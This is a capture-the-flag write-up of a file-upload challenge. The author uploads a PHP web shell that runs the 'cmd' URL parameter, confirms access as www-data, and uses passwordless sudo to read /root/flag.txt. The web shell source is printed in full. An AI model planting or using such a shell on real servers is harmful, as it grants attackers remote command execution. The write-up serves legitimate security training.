 In this writeup, I’ll walk through my approach to exploiting a file upload vulnerability in the `n0s4n1ty 1` challenge. 
The task was to leverage a poorly secured file upload feature to ultimately retrieve a hidden flag stored in the server’s /root directory.
![challange](images/n0s4n1ty_1_chall.png)
It is a web application that allows us to change the profile picture. By reading the URL, I noticed that it is `php`. So, I immediately thought, *“What if I upload a php file?”*.
```
<?php
if(isset($_GET['cmd'])) {
    echo "<pre>";
    $cmd = $_GET['cmd'];
    system($cmd);
    echo "</pre>";
}
?>
```
Once the file was uploaded, I was redirected to a page saying that the file test.php was uploaded to the `/uploads` directory. So, I visited the page `/uploads/test.php`:
To confirm that the shell was operational, I ran the `whoami` command by navigating to a URL similar to:
![verify the shell](images/whoami.png)
I discovered that I am the www-data. Since I don’t think this is a privilege escalation challenge, I ran `sudo -l` to check the permissions associated with my user:
![sudo -l](images/sudo%20-l.png)
And as we can see, no password is required to use the sudo command. So, I tried accessing `/root` to see its contents by running sudo `ls /root:`
![sudo ls /root](images/ls_root_dir.png)
And as we can see, I was able to access it, and inside there’s only the flag.txt file. So, I ran `sudo cat /root/flag.txt` to read the contents of the file and consequently retrieve the flag.
![flag.txt](images/sudo_flag.png)
#### Challenge completed!
